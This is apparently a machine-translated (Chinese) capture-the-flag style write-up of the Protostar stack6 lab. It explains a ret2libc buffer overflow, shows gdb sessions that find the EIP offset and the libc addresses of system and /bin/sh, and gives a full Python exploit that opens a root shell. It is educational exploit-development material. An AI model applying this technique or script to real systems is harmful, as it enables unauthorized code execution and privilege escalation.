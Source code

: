 # [ExpDev]漏洞利用练习|原恒星|堆栈 6

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6?source=collection_archive---------2----------------------->

![](img/d6d034defaa44b1df74fa77c6055e4a2.png)

# 堆栈 6 (ret2libc)

此挑战的目标是绕过对返回地址的限制，并导致任意代码执行。对返回地址的限制将阻止我们使用堆栈中的任何地址。为了避免这一点，我们将利用一种称为面向返回的编程(“ROP”)或返回到 libc(“ret 2 libc”)的技术。

*   链接:[https://exploit-exercises.lains.space/protostar/stack6/](https://exploit-exercises.lains.space/protostar/stack6/)

![](img/a706e0fd9085369aea00959d300fb08c.png)

## 注意事项

*   `gets(buffer);`:易受攻击的函数。它从 stdin 中读取一行，但不检查缓冲区溢出→这容易受到 BOF 类型的攻击。
*   `char buffer[64];`:这将我们的缓冲区长度限制为 64 字节。→我们可以输入超过 64 个字节来引起 BOF。
*   `if((ret & 0xbf000000) == 0xbf000000)`:这是对栈上返回地址的限制。我们可以通过检查 gdb 中的内存映射来确认这一点。

## 限制

让我解释一下这是如何限制我们使用堆栈地址的。当我们用 gdb 运行程序并反汇编`getpath` func 时，我们将看到以下计算:

![](img/a924a798b64d42762a52be1c7eed8445.png)

所以 AND 运算(一条 ASM 逻辑指令)的本质是，如果我们输入任何以`0xbf`开始的地址，它将对`EAX`和`0xbf000000`进行 AND 运算，并再次比较`EAX`和`0xbf000000`。简单来说:

```
If we want to JMP to an address = 0xbfffff01**Operation** |    **HEX**    |    **Binary**
__________|___________|__________________________________________

           0xbfffff01 = 10111111 11111111 11111111 00000001
      **AND**  0xbf000000 = 10111111 00000000 00000000 00000000
_________________________________________________________________ 0xbf000000 = 10111111 00000000 00000000 00000000This will always end up being 0xbf000000.
```

因此，与我们在 [Stack5](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-5-c8d085c914e6) 练习中所做的不同(将我们自己的外壳代码引入堆栈，并将我们的 JMP 指向一个堆栈地址来执行我们的外壳代码)，我们被限制使用这种技术。

# 利用(ret2libc)

为了规避这种类型的限制，我们可以利用面向返回的编程，特别是 ret2libc 技术。简单地说，ret2libc 基本上是我们将地址返回/跳转到一个名为 libc 的编程库中。在 libc 中，有一个 syscall 叫做`system`，我们可以用它打开一个 shell。

## 寻找偏移

让我们创建一个 python 脚本来查找可以控制 EIP 的偏移值:

```
#!/usr/bin/pythonpadding = "A" * 70
padding+= "BBBBCCCCDDDDEEEEFFFFGGGG"print padding
```

然后，在一个文件中创建一个漏洞利用的输出，以便我们可以用 gdb 运行它。

```
$ python exploit.py > /tmp/stack6/exploit
```

现在，运行 gdb 并提供漏洞文件。

```
**$ gdb -q stack6**
  Reading symbols from /opt/protostar/bin/stack6...done.
**(gdb) break * getpath**
  Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
**(gdb) run < /tmp/stack6/exploit**
  Starting program: /opt/protostar/bin/stack6 < /tmp/stack6/exploit  Breakpoint 1, getpath () at stack6/stack6.c:7
  7 stack6/stack6.c: No such file or directory. in stack6/stack6.c
**(gdb) continue**
  Continuing.
  input path please: got path
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDEEAABBBBCCCCDDDDEEEEFFFFGGGG  Program received signal SIGSEGV, Segmentation fault.
 ** 0x45454444** in ?? ()
```

“0x44”和“0x45”在 ASCII 表示中分别是“D”和“E”。因此，偏移量为 80 (= 70 + "BBBBCCCCDD ")。

```
**...
(gdb) continue**
  Continuing.  Program received signal SIGSEGV, Segmentation fault.
  **0x44444343** in ?? ()                             
**(gdb) info registers** eax            0x68 104
  ecx            0x0 0
  edx            0xb7fd9340 -1208118464
  ebx            0xb7fd7ff4 -1208123404
  esp            0xbffff7a0 0xbffff7a0
  ebp            0x44444343 0x44444343
  esi            0x0 0
  edi            0x0 0
  **eip            0x45454444 0x45454444**   **<---- EIP Overflowed**
  eflags          0x210296 [ PF AF SF IF RF ID ]  eax
```

此外，现在我们可以在崩溃时控制 EIP，这意味着我们可以跳转到堆栈中的任何位置。

## 查找 libc 地址

运行程序时，我们可以检查哪个 libc 库正在使用，以及使用 gdb 的地址空间。

```
**(gdb) info proc mappings**
  process 5503
  cmdline = '/opt/protostar/bin/stack6'
  cwd = '/opt/protostar/bin'
  exe = '/opt/protostar/bin/stack6'
```

![](img/6ecb89f9ed7fb6a7527acc50f048ad4a.png)

查找`system`系统调用地址:

```
**(gdb) p system**
  $1 = {<text variable, no debug info>} **0xb7ecffb0** <__libc_system>
```

在 libc 中查找`/bin/sh`地址:

```
**$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"**
  **11f3bf** /bin/sh   

  -a   = Scan entire file
  -t x = Print the offset location of the string in hexdecimalTo confirm...**(gdb) x/s 0xb7e97000 + 0x11f3bf   <-- libc start address + offset**
  0xb7fb63bf:  "/bin/sh"
```

## 漏洞脚本

让我们把所有东西放在一起，创造我们的利用:

```
**[exploit.py]**#!/usr/bin/python
import struct**### EIP Offset**
padding = "A" * 80**### libc system**
system = struct.pack("I", 0xb7ecffb0)**### Return Address After system**
ret = "\x90" * 4**### libc /bin/sh** 
shell = struct.pack("I", 0xb7e97000 + 0x11f3bf)
print padding + system + ret + shell
```

一旦我们使用`cat`技巧运行上述漏洞利用脚本，无需引入任何外壳代码，我们就可以成功打开一个具有 root 权限的`/bin/sh`外壳。

```
$ (python /tmp/stack6/exploit.py; cat) | ./stack6
```

![](img/e1542571870081de3017861f3985a05b.png)

感谢阅读！

## 下一个挑战:

*   [**栈 7**](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-7-fea3ac85ffe7) —基于栈的 BOF: ROP (ret2.text)

![](img/c97268242568b9af008337fbdda0cd45.png)